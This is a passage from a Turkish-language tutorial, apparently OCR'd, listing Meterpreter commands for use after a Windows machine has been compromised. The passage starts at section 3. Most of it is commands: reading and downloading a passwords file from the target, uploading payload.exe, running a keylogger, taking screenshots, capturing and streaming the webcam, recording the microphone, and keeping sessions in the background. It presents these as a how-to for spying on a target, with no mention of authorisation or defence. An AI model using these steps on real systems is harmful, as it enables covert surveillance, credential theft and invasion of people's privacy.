 3️⃣ Dosya Yönetimi ve Log Alma
Metasploit ile hedef makinenin dosya sistemine erişebilir, verileri alabilir veya kayıt altına alabilirsin.
📌 Bulunduğun Dizini Görme:
bash
pwd
📌 Hedef Makinedeki Dosyaları Listeleme:
bash
ls
📌 Dosya İçeriğini Görme:
bash
cat C:\\Users\\Admin\\Desktop\\passwords.txt
📌 Hedef Makineden Dosya Çekme (Download):
bash
download C:\\Users\\Admin\\Desktop\\passwords.txt
📌 Dosya Yükleme (Upload):
bash
upload payload.exe C:\\Users\\Admin\\Documents\\

4️⃣ Keylogger ile Gelen Verileri Görme
Eğer hedef sistemde yazılanları görmek istiyorsan, Metasploit'in keylogger modülünü kullanabilirsin.
📌 Keylogger Başlatma:
bash
keyscan\_start
Bu komut ile hedef sistemde girilen klavye girişlerini kaydetmeye başlarsın.
📌 Kaydedilen Klavye Girişlerini Görme:
bash
keyscan\_dump
📌 Keylogger'ı Durdurma:
bash
keyscan\_stop

5️⃣ Ekran Görüntüsü ve Web Kamerası Görüntüleme
Hedef sistemde görsel veri toplamak için ekran görüntüsü alma veya web kamerasını kontrol etme gibi işlemler yapılabilir.
📌 Ekran Görüntüsü Alma:
bash
screenshot
📌 Web Kamerasını Açma ve Görüntü Alma:
bash
webcam\_list # Hedef makinedeki kameraları listeler 
webcam\_snap # Kamera görüntüsünü alır 
webcam\_stream # Kameradan canlı yayın alır 

6️⃣ Ses Kaydı Alarak Gelen Verileri Görme
📌 Hedef Makinenin Mikrofonunu Kullanarak Ses Kaydı Alma:
bash
record\_mic -d 10
Bu komut, 10 saniyelik ses kaydı alır ve kaydedilen sesi hedef makineden çekebilirsin.

7️⃣ Arka Plan Sürecine Alarak Daha Sonra Verileri Görme
Bağlantıyı koparmadan arka plana alıp geri dönmek için:
📌 Meterpreter Oturumunu Arka Plana Alma:
bash
background
📌 Aktif Oturumları Listeleme:
bash
sessions -i
📌 Belirli Bir Oturuma Geri Dönme:
bash
sessions -i 1
Burada "1", aktif oturum ID'sidir.

